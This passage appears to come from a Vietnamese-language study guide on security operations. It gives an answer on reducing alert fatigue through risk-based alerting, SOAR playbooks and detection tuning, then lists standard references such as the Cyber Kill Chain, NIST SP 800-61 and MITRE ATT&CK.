> - **Trả lời**:
> 1. Áp dụng cơ chế **Risk-Based Alerting (RBA)**: Gán điểm rủi ro cho từng hành vi nhỏ và chỉ bắn Notable Event khi tổng điểm rủi ro của 1 thực thể (Host/User) vượt ngưỡng trong một khoảng thời gian.
> 2. Triển khai **SOAR Playbooks**: Tự động hóa việc phân loại và làm giàu ngữ cảnh (Enrichment) cho các cảnh báo L1 lặp lại.
> 3. Liên tục thực hiện **Detection Tuning**: Loại trừ các tiến trình/tài khoản IT hợp lệ có hành vi lặp lại đã được phê duyệt (Whitelisting có kiểm soát).

---

## 7. Tài Liệu Tham Khảo (References)

- **Lockheed Martin Cyber Kill Chain**: [https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
- **The Pyramid of Pain (David Bianco)**: [https://detect-respond.blogspot.com/2013/03/the-pyramid-of-pain.html](https://detect-respond.blogspot.com/2013/03/the-pyramid-of-pain.html)
- **NIST SP 800-61 Rev 2 Computer Security Incident Handling Guide**: [https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- **NIST Cybersecurity Framework 2.0**: [https://www.nist.gov/cyberframework](https://www.nist.gov/cyberframework)
- **MITRE ATT&CK Framework Enterprise Matrix**: [https://attack.mitre.org/matrices/enterprise/](https://attack.mitre.org/matrices/enterprise/)
- **Elastic và Splunk Detection Engineering Guidelines**: [https://www.splunk.com/en_us/blog/security.html](https://www.splunk.com/en_us/blog/security.html)
